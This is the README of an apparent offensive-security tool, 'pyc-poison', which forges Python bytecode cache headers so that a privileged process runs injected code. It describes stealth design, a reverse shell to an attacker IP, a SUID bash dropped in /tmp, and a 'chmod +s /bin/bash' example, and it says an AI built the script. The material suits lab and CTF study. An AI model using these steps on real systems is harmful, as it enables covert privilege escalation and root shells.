

# pyc-poison

**Automated Python `.pyc` cache poisoning for privilege escalation.**

During one of our weekly [Hack The Box](https://www.hackthebox.com/) sessions we ran into a privilege escalation path based on poisoning Python bytecode caches: a privileged process imports a module whose `__pycache__/*.pyc` is world-writable, so replacing that cached bytecode gets our code executed as the privileged user.

Rather than patching the `.pyc` by hand every time (recompiling, fixing the magic number, syncing the header timestamp/size so Python actually loads the cache), I had Claude build this script to do it automatically.



> ⚠️ **For authorized use only.** This is an offensive-security learning tool for CTFs, HTB/THM labs, and systems you own or are explicitly permitted to test.
> Don't use it against anything you don't have permission to touch.


## How it works

When CPython imports a module, it loads the corresponding `__pycache__/<mod>.cpython-XY.pyc` *without recompiling* as long as the cache is still "valid". For the default **timestamp-based** invalidation, validity is decided purely by the 16-byte header:

| Bytes | Field | Meaning |
|-------|-------|---------|
| 0-3  | Magic number | Must match the loading interpreter's version |
| 4-7  | Bit field | Invalidation mode (timestamp vs. hash-based) |
| 8-11 | Source mtime | Must match the `.py` on disk |
| 12-15 | Source size | Must match the `.py` on disk |

If we can write to the `.pyc`, we drop our own compiled bytecode and forge those header fields so Python accepts it.
The script:

1. Builds a malicious source that **embeds the original `.py`** and appends the payload (see [Stealth](#stealth) below).
2. Compiles it with the local `python3`.
3. **Validates** the target is loadable: checks the magic number matches and that the target uses timestamp-based (not hash-based) invalidation - aborting early if not, so you don't silently poison a cache Python will ignore.
4. **Patches** the header's `mtime` + `size` to match the original `.py` currently on disk. 
5. Backs up the original `.pyc` (once) and swaps in the poisoned one.

The payload fires the next time the privileged process imports the module.

> 💡 **Payload size is unconstrained.** The header's `size` field refers to the *source* `.py`, not the `.pyc` - at import time Python only checks `mtime`/`size` against the `.py` on disk and never inspects the length of the bytecode itself. So your payload can be arbitrarily large; the script just forges those two header fields to match the untouched source. (This is also why no source/bytecode padding is needed.)

### Stealth

The poisoned module keeps the **full original source**, so all of the module's real attributes (functions, classes, constants) still exist - the victim program runs normally, with no `AttributeError` or `traceback`. The payload runs in a detached child (`fork()` + `setsid()`, stdio redirected away), so it neither blocks the import nor prints anything to the victim's terminal. After you close your shell, the program continues as if nothing happened.


## Requirements

- `python3` - must be the **same major.minor version that the privileged process uses to import the module**, which is encoded in the `cpython-XY` tag of the `.pyc` filename (e.g. `cpython-312` → Python 3.12). On a box with a single Python this is automatic; it only matters when several versions are installed and the `python3` in your `$PATH` differs from the one loading the cache. The magic numbers wouldn't match, and the script aborts before touching the target.
- POSIX target (the payload uses `os.fork()` / `os.setsid()`)


## Usage

```
./pyc_poison.sh <target.pyc> <original.py> [options]
```

| Argument | Description |
|----------|-------------|
| `<target.pyc>` | Path to the `.pyc` in `__pycache__` to poison |
| `<original.py>` | Path to the original `.py` source file |

| Option | Description |
|--------|-------------|
| `-c, --cmd <command>` | Command to inject |
| `-i, --ip <ip>` | Attacker IP for a reverse shell |
| `-p, --port <port>` | Attacker port (default: `4444`) |
| `-s, --suid` | Drop a SUID `bash` to `/tmp/.shell` |
| `-h, --help` | Show help |

Payload precedence: `--suid` > `--cmd` > reverse shell.

### Examples

Catch a reverse shell:

```bash
# attacker
nc -lvnp 4444

# on target
./pyc_poison.sh __pycache__/pyc_mod.cpython-312.pyc pyc_mod.py -i 10.10.14.5 -p 4444
```

Drop a SUID shell:

```bash
./pyc_poison.sh __pycache__/pyc_mod.cpython-312.pyc pyc_mod.py -s
# after the module is imported by the privileged process:
/tmp/.shell -p
```

Run an arbitrary command:

```bash
./pyc_poison.sh __pycache__/pyc_mod.cpython-312.pyc pyc_mod.py -c 'chmod +s /bin/bash'
```


## Restoring the target

The original `.pyc` is backed up next to the target on the first run:

```bash
cp __pycache__/pyc_mod.cpython-312.pyc.bak __pycache__/pyc_mod.cpython-312.pyc
```

(The backup is only written once and never overwritten, so re-running the script won't clobber the clean copy.)


## Disclaimer

This project is provided for educational and authorized security-testing purposes only. The authors take no responsibility for misuse. Know the law in your jurisdiction and only test systems you have explicit permission to attack.

